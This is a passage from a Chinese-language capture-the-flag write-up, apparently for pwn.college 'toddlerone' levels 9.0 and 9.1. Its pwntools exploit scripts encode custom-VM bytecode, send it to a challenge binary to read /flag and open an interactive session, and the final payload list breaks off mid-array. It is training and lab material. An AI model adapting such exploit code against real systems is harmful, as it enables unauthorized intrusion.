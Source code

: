 ```python
payload_2 = b''.join(format_data_list(a=0x8,b=0x20,c=0x2,read=0x2,write=0x4,open_=0x10,stm=0x01,imm=0x02, sys=0x04))

p = process("/challenge/toddlerone_level9.0")
p.send(payload_1)
p.send(payload_2)
p.interactive()
```

9.1 就是调整一下顺序。

```python

from pwn import *
"""
/flag  ---> 2f 66 6c 61 67

imm 0x2
stm 0x40
sys 0x10

op      arg1        arg2
        register    value
        syscall   

a   0x2
b   0x40
c   0x1
d   0x10
s   0x20
i   0x4
f   0x8

read    0x08
write   0x01
open    0x10
exit    0x02
"""

def format_data_list(a, b, c, read, write, stm, open_, imm, sys):
    formatted_data_list = []
    for item in data_list:
        formatted_item = item.replace(b'\{a}', bytes([a]))
        formatted_item = formatted_item.replace(b'\{b}', bytes([b]))
        formatted_item = formatted_item.replace(b'\{c}', bytes([c]))

        formatted_item = formatted_item.replace(b'\{sys}', bytes([sys]))

        formatted_item = formatted_item.replace(b'\{read}', bytes([read]))
        formatted_item = formatted_item.replace(b'\{write}', bytes([write]))
        formatted_item = formatted_item.replace(b'\{open}', bytes([open_]))

        formatted_item = formatted_item.replace(b'\{stm}', bytes([stm]))
        formatted_item = formatted_item.replace(b'\{imm}', bytes([imm]))

        formatted_data_list.append(formatted_item)
    return formatted_data_list

elf = ELF("/challenge/toddlerone_level9.1")

data_list = [
    b'\{imm}\{a}\x00', # imm a, 0x00
    b'\{imm}\{b}\xff', # imm b, 0xff
    b'\{imm}\{c}\xff', # imm c, 0xff
```
